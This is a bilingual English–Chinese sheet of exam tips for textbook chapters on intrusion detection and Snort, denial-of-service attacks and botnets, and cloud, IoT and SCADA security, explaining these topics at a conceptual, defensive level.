Chapter 22 Intrusion Detection, Snort and Honeypots
- Step 4 is information gathering or system exploit. Step 1 is also information gathering, but it happens before the attacker has any access.第 4 步是信息收集或系统利用。第 1 步也是信息收集，但它发生在攻击者还没有任何访问权限之前。
- Disabling the antivirus or the IDS belongs to maintaining access, and editing logs belongs to covering tracks.禁用杀毒软件或 IDS 属于维持访问，修改日志属于清除痕迹。
- DR alone never answers "how many alarms are real". Always use the base rate and the FAR.仅凭 DR 无法回答"有多少警报是真的"。必须同时使用基率和 FAR。
- Tightening the threshold lowers false positives but raises false negatives. It does not improve both.收紧阈值会减少假阳性，但会增加假阴性。它不能同时改善两者。
- The denominator is all alarms, true and false. Do not divide by all intrusions.分母是全部警报，包括真实警报和误报。不要除以全部入侵数。
- How to say it in the exam: "Intrusions are rare, so false alarms from the large volume of normal events outnumber true alarms: the base-rate fallacy."考试中可以这样写：“入侵很少发生，因此大量正常事件产生的误报会多于真告警：这就是基率谬误。”
- Anomaly detection is not "better because it finds more". It pays with many false alarms (see the base-rate fallacy in Section 22.2).异常检测并不是"因为能发现更多所以更好"。它的代价是大量误报（见第 22.2 节中的基率谬误）。
- Rare but legitimate behaviour also looks unusual to an anomaly detector, because it was not in the training data.罕见但合法的行为对异常检测器来说也显得异常，因为它不在训练数据中。
- Signature detection does not detect zero-day attacks. It only knows patterns that already exist.特征检测无法发现零日攻击，它只认识已经存在的模式。
- How to say it in the exam: "Anomaly detection defines normal behaviour and finds unknown attacks at the price of false alarms; signature detection defines malicious behaviour and finds only known attacks."考试中可以这样写：“异常检测定义正常行为，能发现未知攻击，但代价是误报；特征检测定义恶意行为，只能发现已知攻击。”
- System calls are the preferred source, but they work poorly on Windows, where DLLs hide which process makes which call.系统调用是首选的数据源，但在 Windows 上效果不佳，因为 DLL 掩盖了哪个进程发起了哪些调用。
- A file integrity checker needs a trusted baseline and cannot see changes in running processes.文件完整性检查器需要一个可信的基线，并且无法看到正在运行的进程中发生的变化。
- A passive sensor cannot block anything. Only an inline sensor can, and it adds delay.被动传感器无法阻断任何东西，只有内联传感器才能阻断，而且它会增加延迟。
- A NIDS cannot read encrypted payloads and cannot see what happens inside a host.NIDS 无法读取加密的载荷，也看不到主机内部发生的事情。
- Location 2 gives the most complete view but also the highest processing load.位置 2 的视角最完整，但处理负载也最高。
- How to say it in the exam: "A HIDS sees one host from inside. A NIDS sees the packets of many hosts from one point, but not encrypted payloads."考试中可以这样写："HIDS 从内部观察一台主机。NIDS 从一个点观察许多主机的数据包，但看不到加密的载荷。"
- Do not say that a honeypot protects the production systems by itself. It diverts, observes and delays.不要说蜜罐本身就能保护生产系统。它的作用是转移、观察和拖延攻击者。
- Outbound traffic from a honeypot is a sign of compromise, not normal behaviour.从蜜罐发出的出站流量是被攻破的迹象，而不是正常行为。
- A high-interaction honeypot is a real system. If compromised, it can attack other systems, which brings legal and reputational problems.高交互蜜罐就是一台真实的系统。如果它被攻破，就可能去攻击其他系统，从而带来法律和声誉方面的问题。
- How to say it in the exam: "A honeypot has no production value, so any contact is suspect. Low-interaction ones emulate services; high-interaction ones are real instrumented systems."考试中可以这样写："蜜罐没有生产价值，因此任何与它的接触都是可疑的。低交互蜜罐模拟服务，高交互蜜罐则是真实的、带有仪器的系统。"
- The header order is fixed: action, protocol, source address, source port, direction, destination address, destination port.规则首部的顺序是固定的：动作、协议、源地址、源端口、方向、目的地址、目的端口。
contentis case-sensitive unlessnocasefollows.depthandoffsetmodify the precedingcontent.content区分大小写，除非后面跟着nocase。depth和offset修饰前面的content。drop,rejectandsdropwork only when Snort runs inline. A passive sensor sees only a copy.drop、reject和sdrop只有在 Snort 内联运行时才起作用。被动传感器只看到副本。- Where the sensor sits changes the meaning of an alert. Outside the firewall alerts show attack volume. Inside it an alert shows that the packet got through.传感器所处的位置会改变告警的含义。在外部防火墙之外，告警反映的是攻击的数量。在其内部，告警说明数据包已经穿过了防火墙。
Chapter 23 Denial-of-Service Attacks and Botnets
- Two reasons for forging: the attacker is not identified, and the replies do not return to him. Give both.攻击者伪造源地址有两个原因：攻击者不会暴露身份，而且回复不会返回给他。两个原因都要说出来。
- Spoofing does not stop the attack. It only hides the source and scatters the replies.伪造并不能阻止攻击。它只是隐藏了源地址，并把回复分散开。
- Backscatter exists only when replies are sent to random forged addresses. A reflection attack has none.只有当回复被发送到随机的伪造地址时，才会产生反向散射。反射攻击不产生反向散射。
- How to say it in the exam: "A DoS attack exhausts bandwidth, system resources or application resources. Forged source addresses hide the attacker and send the replies to random hosts, which gives backscatter."考试中可以这样写：「DoS 攻击会耗尽带宽、系统资源或应用资源。伪造的源地址隐藏了攻击者，并把回复发送给随机主机，从而产生反向散射。」
- Write down the entry lifetime \(L\) and the assumption behind it. The rate is the table size divided by \(L\), not by the retry interval.写下表项生存期 \(L\) 以及其背后的假设。速率是表的大小除以 \(L\)，而不是除以重试间隔。
- A SYN spoofing attacker does not need a faster link than the victim. A flood does.进行 SYN 欺骗的攻击者不需要比受害者更快的链路。而洪泛攻击则需要。
- A SYN-ACK to a forged address gets no ACK. That is why entries stay half open.发往伪造地址的 SYN-ACK 不会得到 ACK。这就是表项保持半开状态的原因。
- How to say it in the exam: "SYN spoofing fills the half-open connection table with forged SYNs at a low rate. A flood fills the link at a high rate."考试中可以这样写：「SYN 欺骗以较低的速率发送伪造的 SYN，填满半开连接表。洪泛则以较高的速率填满链路。」
- Do not claim that universal ingress filtering ends DDoS. The zombies send real addresses and every packet is valid.不要声称普遍的入口过滤能终结 DDoS。僵尸主机发送的是真实地址，每个包都是合法的。
- Name the three levels in order: attacker, handlers, agents (zombies). The target is attacked by the agents only.按顺序说出三个层级：攻击者、控制端、代理（僵尸主机）。目标只受到代理的攻击。
- Round the number of zombies up: 781.25 means 782.僵尸主机数向上取整：781.25 应为 782。
- How to say it in the exam: "A botnet is a set of zombies under one controller. Handlers forward the attacker's commands to many agents, which flood the target with real source addresses."考试中可以这样写：「僵尸网络是受同一个控制者操纵的一组僵尸主机。控制端把攻击者的命令转发给许多代理，代理则用真实的源地址洪泛目标。」
- Ingress filtering and SYN cookies do not help against HTTP floods from a botnet. The bots use real addresses and complete the handshake.入口过滤和 SYN cookie 对僵尸网络发起的 HTTP 洪泛无效。这些机器人使用真实地址，并完成握手。
- Slowloris is not a bandwidth flood. It exhausts a small pool of threads. Volume monitoring does not see it.Slowloris 不是带宽洪泛。它耗尽的是一小批线程。流量监控看不到它。
- How to say it in the exam: "Slowloris sends incomplete requests and never the blank line, so that every thread is held. Delayed binding keeps such requests away from the server."考试中可以这样写：「Slowloris 发送不完整的请求，从不发送空行，从而占住每一个线程。延迟绑定使这类请求不会到达服务器。」
- The forged source is the target, not a random address. That is why there is no backscatter.伪造的源地址是目标本身，而不是随机地址。因此没有反向散射。
- Broadcast amplification works with ICMP or UDP and never with TCP.广播放大只适用于 ICMP 或 UDP，绝不适用于 TCP。
- Ingress filtering removes reflection and amplification, because they need forgery. It does not remove DDoS from real addresses.入口过滤能消除反射和放大，因为它们需要伪造。但它无法消除使用真实地址的 DDoS。
- How to say it in the exam: "In reflection the attacker forges the target's address, so that ordinary servers send their replies to the target. Amplification makes each request yield several replies or one large reply."考试中可以这样写：「在反射攻击中，攻击者伪造目标的地址，使普通服务器把回复发送给目标。放大则使每个请求产生多个回复，或产生一个很大的回复。」
- Say that DoS cannot be prevented entirely. A flash crowd looks like an attack.要说明 DoS 无法被完全防止。突发的合法访问看起来就像攻击。
- Filtering of a flood must be upstream at the ISP. Filtering at the boundary router comes too late.洪泛的过滤必须在上游的 ISP 处进行。在边界路由器处过滤则为时已晚。
- SYN cookies protect the connection table only. They do not help against floods or HTTP floods.SYN cookie 只保护连接表。它对洪泛和 HTTP 洪泛没有帮助。
- How to say it in the exam: "Prevention, detection and filtering, traceback and reaction. Ingress filtering at the ISP stops forged sources, and SYN cookies protect the server against SYN spoofing."考试中可以这样写：「预防、检测与过滤，溯源与响应。在 ISP 处进行入口过滤可阻止伪造的源地址，而 SYN cookie 保护服务器免受 SYN 欺骗。」
Chapter 24 Cloud, IoT and SCADA Security
- "The provider secures everything" is wrong. The consumer stays accountable for its data and secures what it controls in each model.“服务商保障一切”的说法是错误的。在每种模式中，消费者仍然对其数据负责，并保障其所控制的部分。
- Aggregation and arbitrage differ only in that arbitrage chooses among non-fixed services dynamically.聚合与套利的区别仅在于：套利是在非固定的服务之间动态选择。
- Give the full chain in an answer: five characteristics, three service models, four deployment models, one example each.作答时给出完整的链条：五项特征、三种服务模式、四种部署模式，每项各举一例。
- How to say it in the exam: "From IaaS to PaaS to SaaS the provider manages more layers and the consumer fewer, but the consumer remains accountable for its data."考试中可以这样写：“从 IaaS 到 PaaS 再到 SaaS，服务商管理的层次越来越多，消费者管理的层次越来越少，但消费者仍对其数据负责。”
- Client-side encryption protects confidentiality only. It does not protect availability or the integrity of the stored object.客户端加密只保护机密性。它既不保护可用性，也不保护所存对象的完整性。
- One incident often fits several STRIDE categories. Write the most direct one first.一起事件常常同时对应多个 STRIDE 类别。把最直接的那一个写在最前面。
- Series dependencies lower availability, because the availabilities multiply. Parallel replicas raise it.串联依赖会降低可用性，因为各项可用性相乘。并行副本则会提高可用性。
- How to say it in the exam: "The best protection for data at rest is client-side encryption with a key that the provider never sees. It must be combined with backups and redundancy."考试中可以这样写：“静态数据最好的保护是客户端加密，且密钥永远不让服务商看到。它必须与备份和冗余结合使用。”
- Convert units first: bytes to bits (× 8), days or hours to seconds.先换算单位：字节换成比特（× 8），天或小时换成秒。
- The gateway secures only the gateway-to-centre path. Say what protects the devices behind it: link-layer encryption and authentication, anti-tamper protection.网关只保护网关到中心的路径。还要说明什么保护其背后的设备：链路层加密与认证、防篡改保护。
- A compromised sensor is an integrity problem. A compromised actuator is physical harm.被攻陷的传感器是完整性问题；被攻陷的执行器则会造成物理伤害。
- How to say it in the exam: "MiniSec-U rejects any packet whose counter is not larger than the last accepted one, so a recorded packet is rejected."考试中可以这样写：“MiniSec-U 拒绝计数器不大于上一个已接受计数器的任何数据包，因此被录制的数据包会被拒绝。”
- An air-gapped network is not immune. Removable media and maintenance access bridge the gap.物理隔离的网络并非免疫。可移动介质和维护访问会跨越这道隔离。
- Risk level and priority are different things. Say which one you give.风险等级与优先级是两回事。作答时要说明你给出的是哪一个。
- Three reasons SCADA is exposed: legacy protocols without authentication, unpatched legacy systems, and links to corporate networks that defeat the air gap.SCADA 暴露风险的三个原因：不带认证的遗留协议、未打补丁的遗留系统，以及与企业网络的连接使物理隔离失效。
- How to say it in the exam: "Stuxnet was a USB-borne worm with zero-days and stolen certificates. It reprogrammed Siemens PLCs to damage centrifuges while replaying normal sensor readings."考试中可以这样写：“Stuxnet 是一种经 U 盘传播的蠕虫，利用了零日漏洞并使用了被盗证书。它重新编程西门子 PLC 以损坏离心机，同时回放正常的传感器读数。”